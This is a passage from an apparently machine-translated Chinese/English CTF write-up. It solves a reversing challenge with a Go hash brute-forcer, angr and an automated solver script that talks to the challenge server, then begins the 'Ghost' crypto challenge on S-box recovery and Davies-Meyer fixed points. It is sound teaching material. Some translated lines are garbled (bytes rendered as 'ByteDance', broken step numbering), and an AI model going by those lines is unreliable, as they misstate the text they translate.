   Finally, compare with another 60-byte constant in `.rodata`.

因此答案结构固定为：

Therefore, the answer structure is fixed as:

```Plain
answer = 4-byte key || 60-byte payload
```

而且最终答案本身是 64 个十六进制字符。

And the final answer itself is 64 hexadecimal characters. 

#### **Solving Strategy**

**1. 爆破前 4 字节 key**

**4-byte key before blasting**

前 4 字节只受：

The first 4 bytes are only affected by: 

```Plain
sha256(key) == target_hash
```

约束。

Constraint.

因为 key 空间只有 4 字节，所以直接爆破即可。我写了一个 Go 小工具做高吞吐搜索：

Since the key space is only 4 bytes, direct brute force is sufficient. I wrote a small Go tool for high-throughput search:

```Go
package main

import (
    "crypto/sha256"
    "encoding/hex"
    "flag"
    "fmt"
    "os"
    "runtime"
    "sync"
    "sync/atomic"
    "time"
)

func printableCharset() []byte {
    out := make([]byte, 0, 0x7f-0x20)
    for b := byte(0x20); b <= 0x7e; b++ {
        out = append(out, b)
    }
    return out
}

func alnumCharset() []byte {
    out := make([]byte, 0, 26+26+10)
    for b := byte('0'); b <= '9'; b++ {
        out = append(out, b)
    }
    for b := byte('A'); b <= 'Z'; b++ {
        out = append(out, b)
    }
    for b := byte('a'); b <= 'z'; b++ {
        out = append(out, b)
    }
    return out
}

func hexCharset() []byte {
    return []byte("0123456789abcdef")
}

func asciiCharset() []byte {
    out := make([]byte, 0, 0x80)
    for b := byte(0); b <= 0x7f; b++ {
        out = append(out, b)
    }
    return out
}

func fullByteCharset() []byte {
    out := make([]byte, 256)
    for i := range out {
        out[i] = byte(i)
    }
    return out
}

func charsetByName(name string) ([]byte, error) {
    switch name {
    case "printable":
        return printableCharset(), nil
    case "alnum":
        return alnumCharset(), nil
    case "hex":
        return hexCharset(), nil
    case "ascii":
        return asciiCharset(), nil
    case "full":
        return fullByteCharset(), nil
    default:
        return nil, fmt.Errorf("unsupported charset %q", name)
    }
}

func valid2Seqs() [][2]byte {
    out := make([][2]byte, 0, 1920)
    for b0 := byte(0xC2); b0 <= 0xDF; b0++ {
        for b1 := byte(0x80); b1 <= 0xBF; b1++ {
            out = append(out, [2]byte{b0, b1})
        }
    }
    return out
}

func valid3Seqs() [][3]byte {
    out := make([][3]byte, 0, 61440)
    for b1 := byte(0xA0); b1 <= 0xBF; b1++ {
        for b2 := byte(0x80); b2 <= 0xBF; b2++ {
            out = append(out, [3]byte{0xE0, b1, b2})
        }
    }
    for b0 := byte(0xE1); b0 <= 0xEC; b0++ {
        for b1 := byte(0x80); b1 <= 0xBF; b1++ {
            for b2 := byte(0x80); b2 <= 0xBF; b2++ {
                out = append(out, [3]byte{b0, b1, b2})
            }
        }
    }
    for b1 := byte(0x80); b1 <= 0x9F; b1++ {
        for b2 := byte(0x80); b2 <= 0xBF; b2++ {
            out = append(out, [3]byte{0xED, b1, b2})
        }
    }
    for b0 := byte(0xEE); b0 <= 0xEF; b0++ {
        for b1 := byte(0x80); b1 <= 0xBF; b1++ {
            for b2 := byte(0x80); b2 <= 0xBF; b2++ {
                out = append(out, [3]byte{b0, b1, b2})
            }
        }
    }
    return out
}

func valid4Seqs() [][4]byte {
    out := make([][4]byte, 0, 0x110000-0x10000)
    for b1 := byte(0x90); b1 <= 0xBF; b1++ {
        for b2 := byte(0x80); b2 <= 0xBF; b2++ {
            for b3 := byte(0x80); b3 <= 0xBF; b3++ {
                out = append(out, [4]byte{0xF0, b1, b2, b3})
            }
        }
    }
    for b0 := byte(0xF1); b0 <= 0xF3; b0++ {
        for b1 := byte(0x80); b1 <= 0xBF; b1++ {
            for b2 := byte(0x80); b2 <= 0xBF; b2++ {
                for b3 := byte(0x80); b3 <= 0xBF; b3++ {
                    out = append(out, [4]byte{b0, b1, b2, b3})
                }
            }
        }
    }
    for b1 := byte(0x80); b1 <= 0x8F; b1++ {
        for b2 := byte(0x80); b2 <= 0xBF; b2++ {
            for b3 := byte(0x80); b3 <= 0xBF; b3++ {
                out = append(out, [4]byte{0xF4, b1, b2, b3})
            }
        }
    }
    return out
}

func main() {
    var (
        hashHex  = flag.String("hash", "", "target SHA-256 hex digest")
        charset  = flag.String("charset", "printable", "search space: hex, printable, alnum, ascii, utf8-4, full")
        workers  = flag.Int("workers", runtime.NumCPU(), "worker count")
        progress = flag.Bool("progress", true, "print periodic progress")
    )
    flag.Parse()

    if *hashHex == "" {
        fmt.Fprintln(os.Stderr, "missing -hash")
        os.Exit(2)
    }

    target, err := hex.DecodeString(*hashHex)
    if err != nil || len(target) != sha256.Size {
        fmt.Fprintln(os.Stderr, "invalid -hash")
        os.Exit(2)
    }

    if *workers < 1 {
        *workers = 1
    }
    runtime.GOMAXPROCS(*workers)

    var want [32]byte
    copy(want[:], target)

    var total atomic.Uint64
    done := make(chan struct{})
    found := make(chan [4]byte, 1)
    var closeOnce sync.Once
    closeDone := func() {
        closeOnce.Do(func() {
            close(done)
        })
    }

    if *progress {
        go func() {
            ticker := time.NewTicker(1 * time.Second)
            defer ticker.Stop()
            start := time.Now()
            for {
                select {
                case <-done:
                    return
                case <-ticker.C:
                    n := total.Load()
                    secs := time.Since(start).Seconds()
                    if secs == 0 {
                        secs = 1
                    }
                    fmt.Fprintf(os.Stderr, "checked=%d rate=%.0f/s\n", n, float64(n)/secs)
                }
            }
        }()
    }

    check := func(candidate [4]byte) bool {
        sum := sha256.Sum256(candidate[:])
        total.Add(1)
        if sum == want {
            select {
            case found <- candidate:
            default:
            }
            closeDone()
            return true
        }
        return false
    }

    var wg sync.WaitGroup
    if *charset == "utf8-4" {
        ascii := asciiCharset()
        two := valid2Seqs()
        three := valid3Seqs()
        four := valid4Seqs()
        for wid := 0; wid < *workers; wid++ {
            wg.Add(1)
            go func(workerID int) {
                defer wg.Done()
                var c [4]byte
                for _, b0 := range ascii {
                    if int(b0)%*workers != workerID {
                        continue
                    }
                    c[0] = b0
                    for _, b1 := range ascii {
                        c[1] = b1
                        for _, b2 := range ascii {
                            c[2] = b2
                            for _, b3 := range ascii {
                                select {
                                case <-done:
                                    return
                                default:
                                }
                                c[3] = b3
                                if check(c) {
                                    return
                                }
                            }
                        }
                    }
                    for _, seq := range two {
                        c[1], c[2] = seq[0], seq[1]
                        for _, b3 := range ascii {
                            select {
                            case <-done:
                                return
                            default:
                            }
                            c[3] = b3
                            if check(c) {
                                return
                            }
                        }
                    }
                    for _, b1 := range ascii {
                        c[1] = b1
                        for _, seq := range two {
                            select {
                            case <-done:
                                return
                            default:
                            }
                            c[2], c[3] = seq[0], seq[1]
                            if check(c) {
                                return
                            }
                        }
                    }
                    for _, seq := range three {
                        select {
                        case <-done:
                            return
                        default:
                        }
                        c[1], c[2], c[3] = seq[0], seq[1], seq[2]
                        if check(c) {
                            return
                        }
                    }
                }
                for _, seq := range two {
                    if int(seq[0])%*workers != workerID {
                        continue
                    }
                    c[0], c[1] = seq[0], seq[1]
                    for _, b2 := range ascii {
                        c[2] = b2
                        for _, b3 := range ascii {
                            select {
                            case <-done:
                                return
                            default:
                            }
                            c[3] = b3
                            if check(c) {
                                return
                            }
                        }
                    }
                    for _, seq2 := range two {
                        select {
                        case <-done:
                            return
                        default:
                        }
                        c[2], c[3] = seq2[0], seq2[1]
                        if check(c) {
                            return
                        }
                    }
                }
                for _, seq := range three {
                    if int(seq[0])%*workers != workerID {
                        continue
                    }
                    c[0], c[1], c[2] = seq[0], seq[1], seq[2]
                    for _, b3 := range ascii {
                        select {
                        case <-done:
                            return
                        default:
                        }
                        c[3] = b3
                        if check(c) {
                            return
                        }
                    }
                }
                for _, seq := range four {
                    if int(seq[0])%*workers != workerID {
                        continue
                    }
                    select {
                    case <-done:
                        return
                    default:
                    }
                    c = seq
                    if check(c) {
                        return
                    }
                }
            }(wid)
        }
    } else {
        space, err := charsetByName(*charset)
        if err != nil {
            fmt.Fprintln(os.Stderr, err)
            os.Exit(2)
        }
        for wid := 0; wid < *workers; wid++ {
            wg.Add(1)
            go func(workerID int) {
                defer wg.Done()
                var candidate [4]byte
                for i, b0 := range space {
                    if i%*workers != workerID {
                        continue
                    }
                    candidate[0] = b0
                    for _, b1 := range space {
                        candidate[1] = b1
                        for _, b2 := range space {
                            candidate[2] = b2
                            for _, b3 := range space {
                                select {
                                case <-done:
                                    return
                                default:
                                }
                                candidate[3] = b3
                                if check(candidate) {
                                    return
                                }
                            }
                        }
                    }
                }
            }(wid)
        }
    }

    go func() {
        wg.Wait()
        closeDone()
    }()

    select {
    case result := <-found:
        fmt.Printf("hex=%x\n", result)
        fmt.Printf("raw=%q\n", string(result[:]))
    case <-done:
        fmt.Println("not_found")
        os.Exit(1)
    }
}
```

实际跑下来发现 key 很快就能出，例如：

After actually running it, we found that the key can be generated very quickly, for example: 

- one sample: `6936`
- another sample: `2110`

**2. 解最后一层 60 字节约束**

**Release the 60-byte constraint of the last layer**

样本后半段大体分成两层：

The second half of the sample is generally divided into two layers: 

- 一段只依赖常量的 32-bit 算术混淆，产出 4 个常量

  A 32-bit arithmetic obfuscation that only depends on constants, producing 4 constants 

- 一段真正作用在 60 字节上的 byte-wise 变换和比较

  A byte-wise transformation and comparison truly acting on 60 bytes 

这里没有必要全程符号执行整个程序。

There is no need to symbolically execute the entire program throughout.

更省事的做法是：

A more convenient approach is: 

1. 从算术阶段结束的位置切入，concrete 执行得到 4 个中间常量

   Starting from the end position of the arithmetic phase, the concrete execution yields 4 intermediate constants 

2. 再从 60 字节循环入口切入，只把那 60 字节设成 symbolic

   Then, enter from the 60-byte loop entry point and only set those 60 bytes as symbolic 

3. 用 `angr` 直接求出“最终比较前”的 60 字节状态

   Use ` angr ` to directly find the 60-byte state "before the final comparison" 

**3. 逆回状态机**

**Reverse finite-state machine**

前面的状态机由 rodata 里的几张表驱动，操作类型大致有：

The finite-state machine in front is driven by several tables in rodata, and the operation types are roughly as follows: 

- 全体字节异或 / 循环位移

  All ByteDance XOR / Circular Shift

- 60 字节置换

  60 ByteDance Permutation

- 256 字节 substitution table

  256 ByteDance substitution table

- 一个小型 4-byte VM，对若干位置异或

  A small 4-byte VM that XORs several positions 

把这条链按逆序倒推即可还原真正的 60 字节 payload。

Reversing this chain in reverse order will restore the true 60-byte payload.

#### **Automation**

完整自动化脚本：

Complete automation script:

```Python
import io
import socket
import struct
import subprocess
import sys
from dataclasses import dataclass
from pathlib import Path

import angr
import claripy
from capstone import Cs, CS_ARCH_X86, CS_MODE_64
from capstone.x86_const import X86_OP_IMM, X86_OP_MEM, X86_OP_REG, X86_REG_RBP, X86_REG_RDI, X86_REG_RIP
from elftools.elf.elffile import ELFFile

ROOT = Path(__file__).resolve().parent
KEYSEARCH_EXE = ROOT / "oldschool_keysearch.exe"

@dataclass
class Challenge:
    binary: bytes
    binary_hash: bytes
    prob_index: int
    prob_total: int

@dataclass
class AnswerResponse:
    correct: bool
    has_next: bool
    flag: str

@dataclass
class BinaryInfo:
    rodata: bytes
    rodata_addr: int
    text: bytes
    text_addr: int
    main_off: int
    stage_start_off: int
    loop_start_off: int
    success_off: int
    wrong_off: int
    final_buf_off: int
    counter_off: int

def enc_varint(x: int) -> bytes:
    out = bytearray()
    while True:
        b = x & 0x7F
        x >>= 7
        if x:
            out.append(b | 0x80)
        else:
            out.append(b)
            return bytes(out)

def enc_len_field(field: int, value: bytes) -> bytes:
    return enc_varint((field << 3) | 2) + enc_varint(len(value)) + value

def enc_bool_field(field: int, value: bool) -> bytes:
    return enc_varint(field << 3) + enc_varint(1 if value else 0)

def read_varint(buf: bytes, i: int) -> tuple[int, int]:
    x = 0
    shift = 0
    while True:
        b = buf[i]
        i += 1
        x |= (b & 0x7F) << shift
        if b < 0x80:
            return x, i
        shift += 7

def parse_proto(buf: bytes) -> dict[int, object]:
    i = 0
    out: dict[int, object] = {}
    while i < len(buf):
        tag, i = read_varint(buf, i)
        field = tag >> 3
        wire = tag & 7
        if wire == 0:
            out[field], i = read_varint(buf, i)
        elif wire == 2:
            n, i = read_varint(buf, i)
            out[field] = buf[i:i + n]
            i += n
        else:
            raise ValueError(f"unsupported wire type {wire}")
    return out

def recv_msg(sock: socket.socket) -> tuple[int | None, bytes | None]:
    hdr = sock.recv(5)
    if len(hdr) < 5:
        return None, None
    length = struct.unpack(">I", hdr[1:])[0]
    data = bytearray()
    while len(data) < length:
        chunk = sock.recv(length - len(data))
        if not chunk:
            break
        data.extend(chunk)
    return hdr[0], bytes(data)

def request_challenge(sock: socket.socket) -> Challenge:
    sock.sendall(bytes([1]) + struct.pack(">I", 0))
    msg_type, data = recv_msg(sock)
    if msg_type != 2 or data is None:
        raise RuntimeError(f"unexpected challenge response type={msg_type}")
    fields = parse_proto(data)
    return Challenge(
        binary=fields[1],
        binary_hash=fields[2],
        prob_index=int(fields[3]),
        prob_total=int(fields[4]),
    )

def submit_answer(sock: socket.socket, binary_hash: bytes, answer: bytes) -> AnswerResponse:
    payload = enc_len_field(1, binary_hash) + enc_len_field(2, answer)
    sock.sendall(bytes([3]) + struct.pack(">I", len(payload)) + payload)
    msg_type, data = recv_msg(sock)
    if msg_type != 4:
        raise RuntimeError(f"unexpected answer response type={msg_type}")
    fields = {} if not data else parse_proto(data)
    return AnswerResponse(
        correct=bool(fields.get(1, 0)),
        has_next=bool(fields.get(2, 0)),
        flag=fields.get(3, b"").decode("utf-8", errors="replace"),
    )

def disassemble(text: bytes, addr: int):
    md = Cs(CS_ARCH_X86, CS_MODE_64)
    md.detail = True
    for insn in md.disasm(text, addr):
        yield insn

def get_main_off(text: bytes, text_addr: int, entry: int) -> int:
    code = text[entry - text_addr: entry - text_addr + 0x30]
    for insn in disassemble(code, entry):
        if insn.mnemonic == "lea" and len(insn.operands) == 2:
            dst, src = insn.operands
            if dst.type == X86_OP_REG and dst.reg == X86_REG_RDI and src.type == X86_OP_MEM and src.mem.base == X86_REG_RIP:
                return insn.address + insn.size + src.mem.disp
    raise RuntimeError("failed to locate main")

def recursive_instructions(text: bytes, text_addr: int, start: int) -> dict[int, object]:
    md = Cs(CS_ARCH_X86, CS_MODE_64)
    md.detail = True
    todo = [start]
    seen = set()
    insns: dict[int, object] = {}
    end = text_addr + len(text)
    while todo:
        addr = todo.pop()
        if addr in seen or not (text_addr <= addr < end):
            continue
        seen.add(addr)
        off = addr - text_addr
        for insn in md.disasm(text[off:], addr):
            insns[insn.address] = insn
            mnem = insn.mnemonic
            if mnem == "ret":
                break
            if mnem.startswith("j"):
                op = insn.operands[0]
                if mnem == "jmp":
                    if op.type == X86_OP_IMM:
                        todo.append(op.imm)
                    break
                if op.type == X86_OP_IMM:
                    todo.append(op.imm)
                todo.append(insn.address + insn.size)
                break
    return insns

def is_mov_imm(insn, reg_name: str, imm: int) -> bool:
    if insn.mnemonic != "mov" or len(insn.operands) != 2:
        return False
    dst, src = insn.operands
    return dst.type == X86_OP_REG and insn.reg_name(dst.reg) == reg_name and src.type == X86_OP_IMM and src.imm == imm

def find_binary_info(binary: bytes) -> BinaryInfo:
    bio = io.BytesIO(binary)
    elf = ELFFile(bio)
    text_sec = elf.get_section_by_name(".text")
    ro_sec = elf.get_section_by_name(".rodata")
    text = text_sec.data()
    ro = ro_sec.data()
    text_addr = text_sec["sh_addr"]
    ro_addr = ro_sec["sh_addr"]
    entry = elf.header["e_entry"]
    main_off = get_main_off(text, text_addr, entry)
    insns = recursive_instructions(text, text_addr, main_off)
    ordered = [insns[a] for a in sorted(insns)]

    stage_start_off = None
    loop_start_off = None
    counter_off = None
    final_buf_off = None
    success_off = None
    wrong_off = None

    for idx, insn in enumerate(ordered[:-1]):
        if insn.mnemonic == "cmp" and len(insn.operands) == 2:
            left, right = insn.operands
            if (
                left.type == X86_OP_MEM
                and left.mem.base == X86_REG_RBP
                and right.type == X86_OP_IMM
                and right.imm == 0xFF
            ):
                nxt = ordered[idx + 1]
                if nxt.mnemonic == "jne" and nxt.operands[0].type == X86_OP_IMM:
                    stage_start_off = nxt.address + nxt.size
        if insn.mnemonic == "cmp" and len(insn.operands) == 2:
            left, right = insn.operands
            if (
                left.type == X86_OP_MEM
                and left.mem.base == X86_REG_RBP
                and right.type == X86_OP_IMM
                and right.imm == 0x3B
            ):
                nxt = ordered[idx + 1]
                if nxt.mnemonic == "jbe" and nxt.operands[0].type == X86_OP_IMM:
                    loop_start_off = nxt.operands[0].imm
                    counter_off = -left.mem.disp

    for idx in range(len(ordered) - 7):
        a, b, c, d, e, f, g, h = ordered[idx:idx + 8]
        if (
            a.mnemonic == "lea"
            and len(a.operands) == 2
            and a.operands[0].type == X86_OP_REG
            and a.reg_name(a.operands[0].reg) == "rax"
            and a.operands[1].type == X86_OP_MEM
            and a.operands[1].mem.base == X86_REG_RBP
            and is_mov_imm(b, "edx", 0x3C)
            and c.mnemonic == "lea"
            and d.mnemonic == "mov"
            and e.mnemonic == "mov"
            and f.mnemonic == "call"
            and g.mnemonic == "test"
            and h.mnemonic == "je"
            and h.operands[0].type == X86_OP_IMM
        ):
            final_buf_off = a.operands[1].mem.disp
            success_off = h.operands[0].imm
            wrong_off = ordered[idx + 8].address
            break

    if None in (stage_start_off, loop_start_off, counter_off, final_buf_off, success_off, wrong_off):
        raise RuntimeError("failed to recover binary layout")

    return BinaryInfo(
        rodata=ro,
        rodata_addr=ro_addr,
        text=text,
        text_addr=text_addr,
        main_off=main_off,
        stage_start_off=stage_start_off,
        loop_start_off=loop_start_off,
        success_off=success_off,
        wrong_off=wrong_off,
        final_buf_off=final_buf_off,
        counter_off=counter_off,
    )

def rol8(x: int, r: int) -> int:
    r &= 7
    if r == 0:
        return x & 0xFF
    return ((x << r) | (x >> (8 - r))) & 0xFF

def ror8(x: int, r: int) -> int:
    r &= 7
    if r == 0:
        return x & 0xFF
    return ((x >> r) | (x << (8 - r))) & 0xFF

def brute_key(hash_bytes: bytes) -> bytes:
    modes = ["hex", "printable", "ascii", "full"]
    for mode in modes:
        proc = subprocess.run(
            [str(KEYSEARCH_EXE), "-hash", hash_bytes.hex(), "-charset", mode, "-workers", "16", "-progress=false"],
            capture_output=True,
            text=True,
            check=False,
        )
        if proc.returncode == 0:
            for line in proc.stdout.splitlines():
                if line.startswith("raw="):
                    raw = line.split("=", 1)[1].strip()
                    return raw.encode("utf-8").decode("unicode_escape").encode("latin1")
                if line.startswith("hex="):
                    return bytes.fromhex(line.split("=", 1)[1].strip())
        if proc.returncode not in (0, 1):
            raise RuntimeError(proc.stderr.strip() or proc.stdout.strip())
    raise RuntimeError("failed to brute-force key")

def compute_loop_consts(binary: bytes, info: BinaryInfo) -> tuple[int, int, int, int]:
    proj = angr.Project(io.BytesIO(binary), auto_load_libs=False)
    base = proj.loader.main_object.mapped_base
    state = proj.factory.blank_state(addr=base + info.stage_start_off)
    state.options.add(angr.options.ZERO_FILL_UNCONSTRAINED_MEMORY)
    state.options.add(angr.options.ZERO_FILL_UNCONSTRAINED_REGISTERS)
    rbp = 0x7FFF_F000
    state.regs.rbp = rbp
    state.regs.rsp = rbp - 0x500
    sm = proj.factory.simgr(state)
    sm.explore(find=base + info.loop_start_off, avoid=[base + info.success_off, base + info.wrong_off])
    if not sm.found:
        raise RuntimeError("failed to execute concrete arithmetic stage")
    found = sm.found[0]
    offs = (-0x2D0, -0x2CC, -0x2C8, -0x2C4)
    vals = [found.solver.eval(found.mem[rbp + off].uint32_t.resolved) for off in offs]
    return tuple(vals)  # type: ignore[return-value]

def solve_prefinal_buffer(binary: bytes, info: BinaryInfo, consts: tuple[int, int, int, int]) -> bytes:
    proj = angr.Project(io.BytesIO(binary), auto_load_libs=False)
    base = proj.loader.main_object.mapped_base
    state = proj.factory.blank_state(addr=base + info.loop_start_off)
    state.options.add(angr.options.ZERO_FILL_UNCONSTRAINED_MEMORY)
    state.options.add(angr.options.ZERO_FILL_UNCONSTRAINED_REGISTERS)
    rbp = 0x7FFF_F000
    state.regs.rbp = rbp
    state.regs.rsp = rbp - 0x500
    buf = claripy.BVS("prefinal", 60 * 8)
    state.memory.store(rbp + info.final_buf_off, buf)
    for off, value in zip((-0x2D0, -0x2CC, -0x2C8, -0x2C4), consts, strict=True):
        state.mem[rbp + off].uint32_t = value
    state.mem[rbp - info.counter_off].uint64_t = 0
    sm = proj.factory.simgr(state)
    sm.explore(find=base + info.success_off, avoid=[base + info.wrong_off])
    if not sm.found:
        raise RuntimeError("failed to solve final byte loop")
    return sm.found[0].solver.eval(buf, cast_to=bytes)

def op1_record(ro: bytes, idx: int) -> list[tuple[int, int]]:
    off = 0x1A0 + idx * 32
    count = int.from_bytes(ro[off:off + 8], "little")
    return [(ro[off + 8 + 2 * i], ro[off + 8 + 2 * i + 1]) for i in range(count)]

def inverse_op1(ro: bytes, buf: bytearray, idx: int, repeat: int) -> None:
    insts = op1_record(ro, idx)
    for _ in range(repeat):
        for op, imm in reversed(insts):
            if op == 0:
                buf[:] = bytes(b ^ imm for b in buf)
            elif op == 1:
                buf[:] = bytes(rol8(b, imm) for b in buf)
            elif op == 2:
                buf[:] = bytes(ror8(b, imm) for b in buf)
            else:
                raise RuntimeError(f"unsupported op1 opcode {op}")

def inverse_op2(ro: bytes, buf: bytearray, idx: int, repeat: int) -> None:
    off = 0x2A0 + idx * 60
    perm = ro[off:off + 60]
    for _ in range(repeat):
        old = bytearray(60)
        for i, p in enumerate(perm):
            old[p] = buf[i]
        buf[:] = old

def inverse_op3(ro: bytes, buf: bytearray, idx: int, repeat: int) -> None:
    off = 0x480 + idx * 256
    sbox = ro[off:off + 256]
    inv = [0] * 256
    for i, b in enumerate(sbox):
        inv[b] = i
    for _ in range(repeat):
        buf[:] = bytes(inv[b] for b in buf)

def apply_op4(ro: bytes, key: bytes, buf: bytearray, idx: int, repeat: int) -> None:
    if repeat % 2 == 0:
        return
    off = 0xC80 + idx * 88
    count = int.from_bytes(ro[off:off + 8], "little")
    prog = bytearray(ro[off + 8:off + 8 + count * 3])
    sel = ro[off + 80:off + 84]
    for i, b in enumerate(key):
        prog[3 * sel[i] + 2] ^= b
    tmp = [0, 0, 0, 0]
    for i in range(count):
        op = prog[3 * i]
        reg = prog[3 * i + 1] & 3
        imm = prog[3 * i + 2]
        if op == 1:
            tmp[reg] ^= imm
        elif op == 2:
            tmp[reg] = (tmp[reg] + imm) & 0xFF
        elif op == 3:
            tmp[reg] = ror8(tmp[reg], imm)
        elif op == 4:
            tmp[reg] = rol8(tmp[reg], imm)
        elif op == 6:
            buf[imm % 60] ^= tmp[reg]
        else:
            raise RuntimeError(f"unsupported op4 opcode {op}")

def build_chain(ro: bytes, key: bytes) -> list[tuple[int, int, int]]:
    chain: list[tuple[int, int, int]] = []
    n = 0
    while n != 0xFF:
        ptr = n * 4
        kb = key[n & 3]
        op = ro[0x40 + ptr] ^ kb
        idx = ro[0x41 + ptr] ^ kb
        cnt = ro[0x42 + ptr] ^ kb
        nxt = ro[0x43 + ptr] ^ ((n + kb) & 0xFF)
        chain.append((op, idx, cnt))
        n = nxt
    return chain

def invert_state_machine(ro: bytes, key: bytes, prefinal: bytes) -> bytes:
    buf = bytearray(prefinal)
    for op, idx, cnt in reversed(build_chain(ro, key)):
        if op == 1:
            inverse_op1(ro, buf, idx, cnt)
        elif op == 2:
            inverse_op2(ro, buf, idx, cnt)
        elif op == 3:
            inverse_op3(ro, buf, idx, cnt)
        elif op == 4:
            apply_op4(ro, key, buf, idx, cnt)
        else:
            raise RuntimeError(f"unexpected state-machine opcode {op}")
    return bytes(buf)

def solve_binary(binary: bytes) -> bytes:
    info = find_binary_info(binary)
    key_hash = info.rodata[0x20:0x40]
    key = brute_key(key_hash)
    consts = compute_loop_consts(binary, info)
    prefinal = solve_prefinal_buffer(binary, info, consts)
    payload = invert_state_machine(info.rodata, key, prefinal)
    return key + payload

def main() -> int:
    if not KEYSEARCH_EXE.exists():
        print(f"missing helper: {KEYSEARCH_EXE}", file=sys.stderr)
        return 2
    host = sys.argv[1] if len(sys.argv) > 1 else "16.184.16.74"
    out_dir = ROOT / "captures"
    out_dir.mkdir(exist_ok=True)

    with socket.create_connection((host, 8080), timeout=5) as sock:
        sock.settimeout(20)
        while True:
            chal = request_challenge(sock)
            print(f"[{chal.prob_index}/{chal.prob_total}] hash={chal.binary_hash.decode()} size={len(chal.binary)}")
            bin_path = out_dir / f"{host.replace('.', '_')}_{chal.binary_hash.decode()}.bin"
            bin_path.write_bytes(chal.binary)
            answer = solve_binary(chal.binary)
            print(f"answer={answer.decode('ascii', errors='replace')}")
            resp = submit_answer(sock, chal.binary_hash, answer)
            print(f"correct={resp.correct} has_next={resp.has_next} flag={resp.flag!r}")
            if not resp.correct:
                return 1
            if not resp.has_next:
                if resp.flag:
                    print(resp.flag)
                return 0

if __name__ == "__main__":
    raise SystemExit(main())
```

脚本流程：

Script Process:

1. 连服务端拉取 challenge

   Connect to the server to fetch the challenge

2. 提取 ELF 常量和关键基本块地址

   Extract ELF constants and key basic block addresses

3. 调用 Go helper 爆破 4-byte key

   Invoke Go helper to brute force the 4-byte key

4. 用 `angr` 解最后一层 60 字节约束

   Solve the last layer of 60 ByteDance constraints using ` angr ` 

5. 逆回状态机得到真实 payload

   The inverse finite-state machine obtains the real payload 

6. 拼出 64-byte answer 并提交

   Assemble the 64-byte answer and submit it

7. 循环直到拿到 flag

   Loop until the flag is obtained

## Cry

### Ghost

#### **先看轮函数** | **First, look at the round function** 

核心逻辑在 [src/utils.py]:

The core logic is in [src/utils.py]: 

```Python
def apply_round(state, subkey, sboxes):
    left, right = state
    return (right, (left ^ round_core(right, subkey, sboxes)) & MASK32)

def round_core(right, subkey, sboxes):
    return rotl32(sbox_layer((right + subkey) & MASK32, sboxes), 11)
```

这是一个标准的 Feistel 结构，`round_core` 只有三步:

This is a standard Feistel structure, ` round_core ` has only three steps: 

1. `right + subkey`

2. 过 8 个 4-bit S 盒

   Pass through 8 4-bit S-boxes 

3. 左旋 11 位

   Left rotate 11 bits

密钥扩展也很关键:

Key expansion is also crucial: 

```Python
def full_schedule(key_words):
    return list(key_words) * 3 + list(reversed(key_words))
```

如果 8 个 32-bit word 记为 `K0..K7`，那么总轮密钥序列就是:

If 8 32-bit words are denoted as ` K0..K7 `, then the total round key sequence is: 

```Plain
K0 K1 K2 K3 K4 K5 K6 K7
K0 K1 K2 K3 K4 K5 K6 K7
K0 K1 K2 K3 K4 K5 K6 K7
K7 K6 K5 K4 K3 K2 K1 K0
```

把前 8 轮记成一个 8-round 置换 `A`，那么 32 轮整体可以写成:

Denote the first 8 rounds as an 8-round permutation `A`, then the entire 32 rounds can be written as: 

```Plain
E = B o A o A o A
```

其中最后 8 轮 `B` 使用的是反向密钥顺序。

Among them, the last 8 rounds `B` use the reverse key order. 

对于 Feistel 单轮 `R_k(L, R) = (R, L xor f(R, k))`，它的逆满足:

For a single round of Feistel ` R_k(L, R) = (R, L xor f(R, k)) `, its inverse satisfies: 

```Plain
R_k^{-1} = S o R_k o S
```

这里 `S(L, R) = (R, L)` 是交换左右半部。

Here ` S(L, R) = (R, L) ` is the function that swaps the left and right halves. 

因此 8 轮反向密钥对应的变换满足:

Therefore, the transformation corresponding to the 8-round inverse key satisfies:

```Plain
B = S o A^{-1} o S
```

所以整个加密就是:

So the entire encryption is:

```Plain
E = S o A^{-1} o S o A^3
```

这个结构就是整题的突破口。

This structure is the key to solving the entire problem. 

#### **第一步：121 次查询恢复全部 S 盒** | **Step 1: 121 queries to recover all S-boxes** 

服务端给出的 oracle 是:

The oracle provided by the server is: 

```Python
y = round_core(right, subkey, SBOXES)
```

我们完全可以把 `right` 固定成 `0`，这样有:

We can simply fix `right` to `0`, so we have:

```Plain
round_core(0, x) = rotl32(sbox_layer(x), 11)
```

也就是说，只要拿到 `round_core(0, x)`，再右旋回去 11 位，就直接得到了 `sbox_layer(x)`。

That is to say, as long as we obtain `round_core(0, x)`, and then perform a right rotation of 11 bits, we directly get `sbox_layer(x)`.

**为什么 121 次就够**

**Why 121 times is enough**

`sbox_layer` 是 8 个独立 nibble 的查表:

`sbox_layer` is a lookup table for 8 independent nibbles:

```Python
for i in range(8):
    nib = (x >> (4 * i)) & 0xF
    y |= (sboxes[i][nib] & 0xF) << (4 * i)
```

所以我们只要分别控制每个 nibble，就能把每个位置的 S 盒值单独抠出来。

So, as long as we control each nibble separately, we can extract the S-box value at each position individually. 

查询方案:

Query Plan:

1. 查询 `x = 0`
2. Query`x = 0`
3. 对每个位置 `i in [0,7]`
4. For each position `i in [0,7]`
5. 对每个 `v in [1,15]`
6. For each ` v in [1,15] `
7. 查询 `x = v << (4*i)`
8. Query ` x = v << (4*i) `

总查询数:

Total number of queries:

```Plain
1 + 8 * 15 = 121
```

刚好小于题目给的 `128` 次机会。

is just less than the ` 128 ` chances given in the question. 

**为什么不会被加法进位污染**

**Why isn't it contaminated by addition carry?**

因为我们取的是:

Because what we take is:

```Plain
x = v << (4*i)
```

除了第 `i` 个 nibble 以外，其它 nibble 全是 `0`。这里 `right = 0`，所以 `(right + subkey)` 也只会在这一个 nibble 上非零，不会引入跨 nibble 的复杂耦合。于是:

Except for the `i` -th nibble, all other nibbles are `0`. Here `right = 0`, so `(right + subkey)` will also be non - zero only in this one nibble and will not introduce complex cross - nibble coupling. Thus:

```Plain
rotr32(round_core(0, x), 11)
```

的第 `i` 个 nibble 就直接是 `S_i(v)`。

The `i `-th nibble is directly `S_i (v) `.

查询 `x = 0` 时还能同时得到所有 `S_i(0)`。

Querying `x = 0` can also simultaneously obtain all `S_i(0)`.

这样 8 个 4-bit S 盒就被完整恢复了。

Thus, 8 4-bit S-boxes are fully recovered. 

#### **第二步：把碰撞问题转成“固定点”问题** | **Step 2: Convert the collision problem into a "fixed point" problem** 

Davies-Meyer 的定义是:

The definition of Davies-Meyer is:

```Plain
H(iv, m) = E_m(iv) xor iv
```

所以如果我们能构造某个消息 `m`，让:

So if we can construct a message ` m `, such that: 

```Plain
E_m(iv) = iv
```

那么就有:

